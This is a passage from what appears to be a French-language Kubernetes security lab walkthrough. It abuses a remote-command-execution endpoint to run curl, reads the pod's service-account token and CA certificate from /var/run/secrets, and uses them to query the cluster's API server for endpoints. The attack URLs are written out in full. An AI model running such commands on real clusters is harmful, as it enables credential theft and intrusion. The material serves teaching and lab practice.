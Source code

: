             Nous avons maintenant le jeton Pod, nous avons donc des informations d'identification avec lesquelles nous pouvons jouer. Cela peut être utilisé pour nous aider à explorer d'autres endroits dans le cluster.

            Voyons maintenant si nous disposons d'une sorte d'outil que nous pouvons utiliser pour effectuer des appels web via notre RCE. Voyons si nous disposons de **curl** : http://192.168.115.10:31411/seckube?cmd=curl%20google.com

            ![](./images/cmd_curl_google.PNG)

            On peut constater que nous avons bien access a l'outil curl.

            Ensuite, nous allons prendre tout ce que nous avons trouvee dans le conteneur et l'appliquer pour en sortir. Nous allons utiliser **curl** et le **token credential** pour essayer de nous connecter au serveur api de Kubernetes et lui demander les endpoints du cluster. Les détails de la connexion sont les suivants :

            - **Host** : la valeur de la variable KUBERNETES_PORT
            - **URI (identifiant uniforme de ressource)** : ici **endpoints**, dans le namespace par defaut, a l'emplacement **/api/v1/namespaces/default/endpoints**
            - **En-tête** : Un **Authorization: Bearer** contenant le contenu du fichier de jeton trouvee plus haut
            - **CA Cert** : Le certificat de l'autorité de certification qui, nous pouvons le supposer, se trouve dans l'emplacement par défaut, au même endroit que notre fichier de jetons, et s'appelle ca.crt.

            L'URL est le suivant : http://192.168.115.10:31411/seckube?cmd=curl%20--cacert%20/var/run/secrets/kubernetes.io/serviceaccount/ca.crt%20-H%20%22Authorization:%20Bearer%20$(cat%20/var/run/secrets/kubernetes.io/serviceaccount/token)%22%20https://10.96.0.1/api/v1/namespaces/default/endpoints
